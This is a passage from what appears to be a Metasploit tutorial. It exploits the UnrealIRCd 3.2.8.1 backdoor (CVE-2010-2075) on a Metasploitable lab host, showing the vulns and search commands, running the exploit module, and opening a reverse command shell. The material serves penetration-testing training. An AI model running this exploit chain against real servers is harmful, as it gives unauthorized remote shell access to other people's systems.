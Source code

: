 belongs to the IP address `172.16.194.172` Let's see the vulnerabilities of port number `6667`.

```bash
msf > vulns 172.16.194.172 -p 6667
> Time: 2012-06-15 18:32:23 UTC Vuln: host=172.16.194.172 name=NSS-46882 refs=CVE-2010-2075,BID-40820,OSVDB-65445,NSS-46882
> Time: 2012-06-15 18:32:23 UTC Vuln: host=172.16.194.172 name=NSS-11156 refs=NSS-11156
> Time: 2012-06-15 18:32:23 UTC Vuln: host=172.16.194.172 name=NSS-17975 refs=NSS-17975
msf >
```

Is there any module in the Metasploit Framework modules belonging to the `cve:2010-2075` vulnerability listed as a vulnerability belonging to port number `6667`? Let's search.

```bash
msf > search cve:2010-2075

Matching Modules
**=================**

Name Disclosure Date Rank Description
---- --------------- ---- -----------
exploit/unix/irc/unreal_ircd_3281_backdoor 2010-06-12 excellent UnrealIRCD 3.2.8.1 Backdoor Command Execution

msf >
```

In the search result, we see that there is an exploit module named `exploit/unix/irc/unreal_ircd_3281_backdoor`. Let's use this module now.

```bash
msf  use exploit/unix/irc/unreal_ircd_3281_backdoor

msf  exploit(unreal_ircd_3281_backdoor) > exploit

> Started reverse double handler
> Connected to 172.16.194.172:6667...
    :irc.Metasploitable.LAN NOTICE AUTH : Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH : Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Q4SefN7pIVSQUL2F;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "Q4SefN7pIVSQUL2F\r "
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (172.16.194.163:4444 -> 172.16.194.172:35941) at 2012-06-15 15:08:51 -0400

ifconfig
eth0      Link encap:Ethernet  HWaddr 00:0c:29:d1:62:80  
          inet addr:172.16.194.172  Bcast:172.16.194.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fed1:6280/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:290453 errors:0 dropped:0 overruns:0 frame:0
          TX packets:402340 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:41602322 (39.6 MB)  TX bytes:344600671 (328.6 MB)
          Interrupt:19 Base address:0x2000 

lo        Link encap:Local Loopback  
```